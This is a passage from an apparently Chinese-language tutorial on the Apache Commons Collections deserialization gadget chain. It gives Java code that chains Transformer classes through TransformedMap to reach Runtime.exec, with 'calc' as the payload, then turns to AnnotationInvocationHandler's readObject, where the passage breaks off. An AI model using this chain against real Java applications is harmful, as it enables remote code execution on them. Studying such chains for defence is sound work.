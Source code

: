   `TransformedMap`用于对Java原生Map进行一些修饰，当Map调用`setValue`时，会触发`checkSetValue`，进而调用`transform`。其构造方法被protected修饰，因此我们利用它的静态public方法`decorate`

# 0x03 Best Practice

使用`Transformer`的实现类和`TransformedMap`实现命令执行

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.getRuntime()),
    new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<Object, Object> map = new HashedMap();
Map<Object, Object> evilMap = TransformedMap.decorate(map, null, chainedTransformer);
evilMap.put("test", 123);
```

两个问题：

* Runtime类没有实现`Serializable`接口，无法反序列化
* 需要找到`readObject`中有类似`Map.put(xxx,yyy)`操作的类

Q1：`Class`类可以反序列化，用`Runtime.class`作为`ChainedTransformer`的入口参数，后面再通过反射来调用exec
```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<Object, Object> map = new HashedMap();
Map<Object, Object> evilMap = TransformedMap.decorate(map, null, chainedTransformer);
evilMap.put("test", 123);
```

Q2：Introducing  ~  **AnnotationInvocationHandler**

```java
// sun.reflect.annotation.AnnotationInvocationHandler#readObject
private void readObject(java.io.ObjectInputStream s) {
    s.defaultReadObject();

    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
```
